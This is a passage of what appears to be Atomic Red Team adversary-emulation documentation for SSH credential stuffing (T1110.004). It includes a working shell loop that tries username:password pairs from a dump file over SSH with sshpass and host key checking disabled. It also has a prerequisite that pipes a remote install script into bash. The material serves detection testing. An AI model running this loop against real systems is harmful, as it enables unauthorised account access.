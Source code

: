 #### Dependencies: Run with `bash`!

##### Description: Requires SSHPASS

##### Check Prereq Commands:

```bash
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi;
```

##### Get Prereq Commands:

```bash
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/e8114640740938c20cc41ffdbf07816b428afc49/install.sh)"
brew install hudochenkov/sshpass/sshpass
```

<br/>
<br/>

## Atomic Test #3 - SSH Credential Stuffing From FreeBSD

Using username,password combination from a password dump to login over SSH.

**Supported Platforms:** Linux

**auto_generated_guid:** a790d50e-7ebf-48de-8daa-d9367e0911d4

#### Inputs:

| Name        | Description                               | Type   | Default Value |
| ----------- | ----------------------------------------- | ------ | ------------- |
| target_host | IP Address / Hostname you want to target. | string | localhost     |

#### Attack Commands: Run with `sh`!

```sh
cp $PathToAtomicsFolder/T1110.004/src/credstuffuserpass.txt /tmp/
for unamepass in $(cat /tmp/credstuffuserpass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```

#### Dependencies: Run with `sh`!

##### Description: Requires SSHPASS

##### Check Prereq Commands:

```sh
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi;
```

##### Get Prereq Commands:

```sh
pkg install -y sshpass
```
